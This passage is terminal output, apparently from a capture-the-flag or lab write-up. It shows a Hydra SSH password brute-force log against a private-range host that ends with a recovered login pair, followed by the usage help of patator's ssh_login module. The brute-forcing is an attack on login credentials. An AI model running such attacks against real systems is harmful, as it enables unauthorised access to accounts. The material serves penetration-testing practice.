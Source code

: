 ```
[ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "3171617a405753580a" - 484 of 439926 [child 20] (0/48)
[ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "7268796d65730a" - 485 of 439926 [child 21] (0/48)
[RE-ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "MXFhekBXU1gK" - 485 of 439926 [child 4] (0/48)
[ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "" - 486 of 439926 [child 10] (0/48)
[ATTEMPT] target 10.10.101.155 - login "spider" - pass "1qaz%40WSX" - 487 of 439926 [child 3] (0/48)
[ATTEMPT] target 10.10.101.155 - login "spider" - pass "cmh5bWVzCgo=" - 488 of 439926 [child 37] (0/48)
[ATTEMPT] target 10.10.101.155 - login "spider" - pass "MXFhekBXU1gK" - 489 of 439926 [child 14] (0/48)
[ATTEMPT] target 10.10.101.155 - login "spider" - pass "3171617a405753580a" - 490 of 439926 [child 7] (0/48)
[ATTEMPT] target 10.10.101.155 - login "spider" - pass "7268796d65730a" - 491 of 439926 [child 0] (0/48)
[ATTEMPT] target 10.10.101.155 - login "spider" - pass "" - 492 of 439926 [child 34] (0/48)
[22][ssh] host: 10.10.101.155   login: tommyboy1   password: 1qaz%40WSX
[STATUS] attack finished for 10.10.101.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-05 19:06:08



or using patator

┌──(kali㉿kali)-[~/Downloads]
└─$ patator ssh_login -h
/home/kali/.local/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.9
Usage: ssh_login <module-options ...> [global-options ...]

Examples:
  ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

Module options:
  host          : target host
  port          : target port [22]
  user          : usernames to test
  password      : passwords to test
  auth_type     : type of password authentication to use [password|keyboard-interactive|auto]
  keyfile       : file with RSA, DSA or ECDSA private key to test
  persistent    : use persistent connections [1|0] 

Global options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit

  Execution:
    -x arg              actions and conditions, see Syntax below
    --start=N           start from offset N in the product of all payload sets
    --stop=N            stop at offset N
    --resume=r1[,rN]*   resume previous run
    -e arg              encode everything between two tags, see Syntax below
    -C str              delimiter string in combo files (default is ':')
    -X str              delimiter string in conditions (default is ',')
    --allow-ignore-failures
                        failures cannot be ignored with -x (this is by design
                        to avoid false negatives) this option overrides this
```